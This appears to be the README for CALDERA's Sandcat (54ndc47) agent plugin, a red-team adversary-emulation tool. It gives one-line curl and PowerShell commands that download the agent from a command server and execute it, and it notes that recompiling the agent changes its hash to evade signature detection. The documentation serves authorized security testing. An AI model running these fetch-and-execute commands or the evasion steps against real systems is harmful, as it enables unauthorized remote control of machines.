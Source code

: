 Plugin: sandcat
============

The Sandcat plugin, otherwise known as 54ndc47, is the default agent that CALDERA ships with. 54ndc47 is currently written in GoLang for cross-platform compatibility. 

54ndc47 agents require network connectivity to CALDERA at port 8888.

## Deploy 

To deploy 54ndc47, use one of the built-in delivery commands which allows you to run the agent on any operating system. Each of these commands downloads the compiled 54ndc47 executable from CALDERA and runs it immediately:

> You can also go to the plugins -> sandcat GUI page and view these same delivery commands, along with a few other customized options. The delivery commands available there include a few extra goodies, such as persistence and the automatic renaming of the sandcat executable to a random name.

**OSX**:
```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:darwin' http://localhost:8888/file/download > /tmp/sandcat-darwin && chmod +x /tmp/sandcat-darwin && /tmp/sandcat-darwin -server http://localhost:8888 -group my_group -v; 
```

**Linux**:
```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' http://localhost:8888/file/download > /tmp/sandcat-linux && chmod +x /tmp/sandcat-linux && /tmp/sandcat-linux -server http://localhost:8888 -group my_group -v; 
```

**Windows / PowerShell**:
```
$url="http://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://localhost:8888 -group my_group -v;
```

**Windows / Command Prompt**:
```
$url="http://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);cmd.exe /c C:\Users\Public\sandcat.exe -server http://localhost:8888 -group my_group -executor cmd -v;
```
Once the agent is running, it should show log messages when it beacons into CALDERA.

> If you have GoLang installed on the CALDERA server, each time you run one of the delivery commands above, the agent will re-compile itself dynamically and it will change it's source code so it gets a different file hash (MD5). This will help bypass file-based signature detections.

## Options

When deploying a 54ndc47 agent, there are optional parameters you can use when you start the executable:

* **Server**: This is the location of CALDERA. The agent must have connectivity to this host/port. 
* **Group**: This is the group name that you would like the agent to join when it starts. The group does not have to exist. A default group of my_group will be used if none is passed in.
* **Executors**: A comma-separated list of execution engines to use. On MacOS and Linux, sh is the only option (and the default if this parameter is not passed in). On Windows, psh (PowerShell), cmd (command prompt) and pwsh (open-source PowerShell core) are the options, with psh the default.
* **v**(new): Use `-v` to see verbose output from sandcat.  Otherwise, sandcat will run silently. 

### Customizing Default Options & Execution Without CLI Options

It's possible to customize the default values of these options when pulling sandcat from the CALDERA server.  This is useful if your method of executing sandcat isn't friendly towards including the required options on the command line. The option to change and new values can be specified by adding HTTP headers to the web request: 

* defaultGroup: specify a new default group.
* defaultSleep: specify a new default sleep interval.
* defaultServer: specify a new default server. 

For example, the following will download a linux executable that will use `new_group` as a default group instead of `my_group` and have a default sleep interval of `5` seconds instead of `60`.  

```
curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' -H 'defaultGroup:new_group' -H 'defaultSleep:5' http://localhost:8888/file/download
```

## Updating the agent

The 54ndc47 agent is compiled dynamically upon request (through the /file/download endpoint) as long as GoLang is installed on the server. Alternatively, you can compile the agent yourself by running one of the following commands:
```
GOOS=windows go build -o ../payloads/sandcat.go-windows -ldflags="-s -w" sandcat.go
GOOS=linux go build -o ../payloads/sandcat.go-linux -ldflags="-s -w" sandcat.go
GOOS=darwin go build -o ../payloads/sandcat.go-darwin -ldflags="-s -w" sandcat.go
```

> There is a script at the root of this plugin called update-agents.sh, which runs the above commands. 

For Windows computers, we assume 64-bit. If you are running 32-bit Windows, you'll want to compile the agent specifically for this. You can do this by running the following command before you run the compile command:
```
set GOARCH=386  
```

